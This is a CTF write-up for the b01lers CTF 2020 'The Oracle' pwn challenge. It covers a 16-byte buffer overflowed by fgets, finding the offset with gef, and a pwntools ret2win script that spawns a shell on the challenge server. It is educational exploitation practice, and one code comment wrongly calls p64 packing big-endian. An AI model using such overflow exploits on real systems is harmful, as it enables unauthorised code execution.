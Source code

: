 # b01lers CTF 2020: Pwn - The Oracle (100 Points)

![img](https://github.com/FreezeLuiz/CTF-Writeups/blob/master/pwn/images/bo1lersctf2020-the_oracle/the_oracle_desc.PNG "Challenge Description")

From the challenge description we get 2 files to download, one is the binary running on the server `chal.ctf.b01lers.com:1015` and the other is the source code of that program. 

## Recon and Analysis

Running the program it will display a text `Know Thyself.` and waits for our input. When you scream at the program, eventually you will hit a `Segmentation fault`

```sh
kali@kali:~/Documents/b01lerctf/the_oracle$ ./theoracle 
Know Thyself.
AAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
kali@kali:~/Documents/b01lerctf/the_oracle$
```

Since we have the source code, lets give it a look to see what exactly are we dealing with.

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void win() {
    char* argv[] = { NULL };
    char* envp[] = { NULL };

    execve("/bin/sh", argv, envp);
}

int main() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    char buffer[16];

    printf("Know Thyself.\n");
    fgets(buffer, 128, stdin);
}
```

From the C code, we have our main function that `fgets()` our input into the `buffer[16]`. The function gets `127 bytes` as input and places them into `buffer` which has only `16 bytes` allocated, which will result in a buffer overflow if we give input of more than `16 bytes`. 

We have another function called `win()` which executes `/bin/sh` when called. But that function is never called inside our `main()` function. Perhaps the challenge is becoming a bit more clear now, we need to use the buffer overflow vulnerability in the code to _hopefully_ overwrite the instruction pointer `rip` and give `rip` the value of the `win()` function in memory to get executed. In short...

```
BoF > overwrite rip > win() > cat flag.txt
```

Lets make sure that there is no PIE (Position Independant Executable) in the binary, I like to use pwntools `checksec`

```sh
kali@kali:~/Documents/b01lerctf/the_oracle$ checksec theoracle
[*] '/home/kali/Documents/b01lerctf/the_oracle/theoracle'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

`No PIE`, now we are in business... There are multiple ways to know the address of a function, for example you can use `GDB` or `radare2` however, I will use `pwntools` to find the address of `win()` using `elf.symbols['win']`


## Writing the exploit and getting the flag

First we need to find the offset where we start overwriting the instruction pointer, I used `gef gdb` to create a cyclic pattern of 50 characters and which results in the following string.

```gdb
gef➤  pattern create 50
[+] Generating a pattern of 50 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga
[+] Saved as '$_gef0'
```

Then I fed that string to the program's input and automatically, gdb will break at the segmentation fault.

```
gef➤  r
Starting program: /home/kali/Documents/b01lerctf/the_oracle/theoracle 
Know Thyself.
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga

Program received signal SIGSEGV, Segmentation fault.
```

The trick in this challenge is that you do not overwrite the `rip` directly, you overwrite the value of `rsp` which is the stack pointer. That value will be placed in `rip` after the execution of the `ret` instruction in `0x40123e <main+114>  ret` so the value of `rsp` is going to be the offset value we are looking for.

```
─────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
...         
$rsp   : 0x00007fffffffe148  →  "daaaaaaaeaaaaaaafaaaaaaaga\n"
...
$rip   : 0x000000000040123e  →  <main+114> ret 
...
─────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffe148│+0x0000: "daaaaaaaeaaaaaaafaaaaaaaga\n"       ← $rsp
0x00007fffffffe150│+0x0008: "eaaaaaaafaaaaaaaga\n"
0x00007fffffffe158│+0x0010: "faaaaaaaga\n"
0x00007fffffffe160│+0x0018: 0x00000000000a6167 ("ga\n"?)
0x00007fffffffe168│+0x0020: 0x00007ffff7e137d9  →  <init_cacheinfo+297> mov rbp, rax
0x00007fffffffe170│+0x0028: 0x0000000000000000
0x00007fffffffe178│+0x0030: 0x223d9461dea63a0d
0x00007fffffffe180│+0x0038: 0x00000000004010b0  →  <_start+0> endbr64 
───────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x401233 <main+103>       call   0x401080 <fgets@plt>
     0x401238 <main+108>       mov    eax, 0x0
     0x40123d <main+113>       leave  
 →   0x40123e <main+114>       ret    
[!] Cannot disassemble from $PC
───────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "theoracle", stopped 0x40123e in main (), reason: SIGSEGV
─────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40123e → main()
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  pattern search daaaaaaaeaaaaaaafaaaaaaaga
[+] Searching 'daaaaaaaeaaaaaaafaaaaaaaga'
[+] Found at offset 24 (big-endian search) 
gef➤  

```
From that dynamic analysis we can conclude the offset to be `24` which is `8 bytes` more than the original buffer's size.

### Exploit using pwntools

```python
from pwn import *

elf = context.binary = ELF("./theoracle") # Load the binary as an ELF
r = remote("chal.ctf.b01lers.com", 1015) # Connect to the remote server
context.log_level = 'INFO' # You can ignore that if you want

offset = 16+8 # Our calculated offset
win = elf.symbols['win'] # Getting the address value of the win() function from the "elf" object

# Creating the payload
payload = b""
payload += b"A"*offset
payload += p64(win) # Pack the address in big-endian format

r.recvuntil("\n") # Recieve until new line
r.sendline(payload) # Send the payload as input
r.interactive() # Wait for an interactive shell
r.close() # Close the remote connection (always good to do)
```

![img](https://github.com/FreezeLuiz/CTF-Writeups/blob/master/pwn/images/bo1lersctf2020-the_oracle/the_oracle_PoC_flag.PNG "we got the flag!")